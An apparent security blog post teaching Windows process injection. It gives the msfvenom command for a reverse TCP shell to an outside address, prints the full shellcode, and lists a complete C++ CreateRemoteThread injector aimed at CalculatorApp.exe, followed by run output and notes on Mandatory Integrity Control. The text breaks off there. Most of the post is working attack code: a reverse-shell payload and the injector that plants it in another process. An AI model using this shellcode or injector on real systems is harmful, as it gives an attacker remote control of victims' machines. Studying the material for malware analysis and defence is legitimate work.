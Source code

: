 ```yaml
---
layout: post
title:  "Process Injection Techniques"
date:   2023-09-12 00:00:00 +0000
categories: malware
---
```


In this entry, we will dive into Windows process injection techniques demonstrated by malware. Malware authors deploy process injection to run malicious code under another process.

### 1. Payload & Compiling
Since most malware are 32 bit. All code below will be compiled in `x86 (32 bit)`, with the command `g++.exe <input.cpp> -o <output.exe> --std=c++20 -static`.

A simple reverse TCP shell will be used. The shellcode was generated with the following command - `msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.128 LPORT=443 -f c`. I will exclude the payload code in below examples due to its obstruction.

{% highlight cpp %}

unsigned char payload[] = 
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c"
"\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
"\x29\x80\x6b\x00\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68"
"\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x05\x68\x0a\x00\x00\x80\x68"
"\x02\x00\x01\xbb\x89\xe6\x6a\x10\x56\x57\x68\x99\xa5\x74\x61"
"\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75\xec\x68\xf0\xb5\xa2"
"\x56\xff\xd5\x68\x63\x6d\x64\x00\x89\xe3\x57\x57\x57\x31\xf6"
"\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01\x01\x8d\x44"
"\x24\x10\xc6\x00\x44\x54\x50\x56\x56\x56\x46\x56\x4e\x56\x56"
"\x53\x56\x68\x79\xcc\x3f\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff"
"\x30\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6"
"\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
"\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5";

{% endhighlight %}

<br>
### 2. CreateRemoteThread Injection
CreateRemoteThread is the most basic form of process injection. In essence, it performs the following calls,
+ `OpenProcess()` to get a handle to the victim process.
+ `VirtualAllocEx()` to allocate a new memory page in the victim process.
+ `WriteProcessMemory()` to inject the shellcode into the new memory page.
+ `CreateRemoteThread()` to start the shellcode, in a new thread, in the new memory page.


<br>
#### 2.1. Where to Inject?
The shellcode cannot be injected into any process of choice. Take this example.

{% highlight cpp %}

#include <windows.h>
#include <tlhelp32.h>
#include <iostream>

int main() {
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    HANDLE process_handle;
    PVOID remote_buffer;
    HANDLE remote_thread;

    PROCESSENTRY32 processEntry;
    processEntry.dwSize = sizeof(PROCESSENTRY32);

    while (Process32Next(snapshot, &processEntry)) {
          
        if (strcmp(processEntry.szExeFile, "CalculatorApp.exe") == 0) {
            printf("Found CalculatorApp.exe\n");

            process_handle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, (int) processEntry.th32ProcessID);
            std::cout << "HANDLE: " << process_handle << std::endl;

            remote_buffer = VirtualAllocEx(process_handle, NULL, sizeof(payload), (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
            std::cout << "Remote Buffer: " << remote_buffer << std::endl;

            bool written = WriteProcessMemory(process_handle, remote_buffer, payload, sizeof(payload), NULL);
            std::cout << "WriteProcessMemory: " << written << std::endl;

            remote_thread = CreateRemoteThread(process_handle, NULL, 0, (LPTHREAD_START_ROUTINE) remote_buffer, NULL, 0, NULL);
            std::cout << "Remote Thread: " << remote_thread << std::endl;

            CloseHandle(process_handle);
            break;
        }
    };

    CloseHandle(snapshot);
    return 0;
}

{% endhighlight %}

<br>
Let's run the code and dissect the output. We notice that `CreateRemoteThread` fails and returns a NULL. If we inspect `GetLastError`, we get `0x5 (ERROR_ACCESS_DENIED)`. But why?

{% highlight powershell %}

C:\Users\root\Desktop
λ calc_injector.exe
Found CalculatorApp.exe
Calc HANDLE: 0x104
Remote Buffer: 0xfe0000
WriteProcessMemory: 1
Remote Thread: 0

{% endhighlight %}


<br>
#### 2.2. Mandatory Integrity Control.
Introducing the concept of [Mandatory Integrity Control (MIC)](https://learn.microsoft.com/en-us/windows/win32/secauthz/mandatory-integrity-control).

// Calculator.exe has a low Mandatory Integrity Control (MIC) level.
// powershell.exe by default is medium
// high MIC for any process with administrator level
// Can use GetTokenInformation to find processes with high MIC levels